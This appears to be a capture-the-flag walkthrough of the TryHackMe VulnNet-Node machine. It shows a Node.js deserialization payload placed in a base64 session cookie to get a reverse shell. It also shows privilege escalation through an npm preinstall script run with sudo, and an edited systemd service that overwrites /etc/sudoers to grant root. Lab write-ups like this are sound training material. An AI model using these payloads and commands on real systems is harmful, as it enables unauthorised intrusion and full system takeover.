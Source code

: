 ```yaml
---

title: Walkthrough - VulnNET-Node
published: true
---
```


Tags: Linux, Web, Javascript, Privilege Escalation, NPM.
Description: After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?
Difficulty: Easy
URL: [https://tryhackme.com/room/vulnnetnode](https://tryhackme.com/room/vulnnetnode)

* * *

## Notes

The name and Nmap gives us the clue this is a nodejs vuln

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Node.js Express framework
|_http-title: VulnNet &ndash; Your reliable news source &ndash; Try Now!
```

- `gobuster dir -u http://10.10.136.21:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100`

Gobuster doesnt yeild much just shows us the login that we can find by visiting the website.

Checking the firefox inspector, the session cookie seems to base64.

![](/assets/vulnnet-node01.png)

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/VulnNet-Node]
└─$ echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==" | base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"}           
```

Perhaps we are able to edit this cookie to give us access?

- encode `{"username":"Admin","isAdmin":true,"encoding": "utf-8"}` - `eyJ1c2VybmFtZSI6IkFkbWluIiwiaXNBZG1pbiI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ==`

Doesnt seem to do anything...

Going to use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create a nodejs shell for our machine.

I have used this from the past to work with nodejs `_$$ND_FUNC$$_function(){codehere}()` and then modifying the code from [here](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) and encodeing with base64 gets the server to send us a reverse shell.

```
{"rce":"_$$ND_FUNC$$_function(){eval(CODEHERE)}()"}
```

Encode to b64 and send through as the cookie to gain shell

```
efaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

Using this we can privesc to serv-manage

- `echo '{"scripts": {"preinstall": "/bin/sh"}}' > exp/package.json`
- `sudo -u serv-manage npm -C /home/www/VulnNet-Node/exp/ --unsafe-perm i`

* * * 

## user.txt?

![](/assets/vulnnet-node02.png)

* * * 

## root.txt?

sudo -l shows us we can start and stop a service names vulnnet-auto.timer

```
User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```

We have permissions so we can edit this file to send us another reverse shell.

- `find / -name vulnnet* 2>/dev/null`
- `cat /etc/systemd/system/vulnnet-job.service`

This file executes df we have permissions to edit however so we can edit to give us root perms.

```
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/sh -c 'echo "serv-manage ALL=(root) NOPASSWD: ALL" > /etc/sudoers'

[Install]
WantedBy=multi-user.target
```

Then we can swap to root and cat root.txt

```
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl stop vulnnet-auto.timer
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl daemon-reload
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo /bin/systemctl start vulnnet-auto.timer
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo -l
User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: ALL
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ cat /root/root.txt
cat: /root/root.txt: Permission denied
(remote) serv-manage@vulnnet-node:/etc/systemd/system$ sudo su
root@vulnnet-node:/etc/systemd/system# cat /root/root.txt
```

* * * 

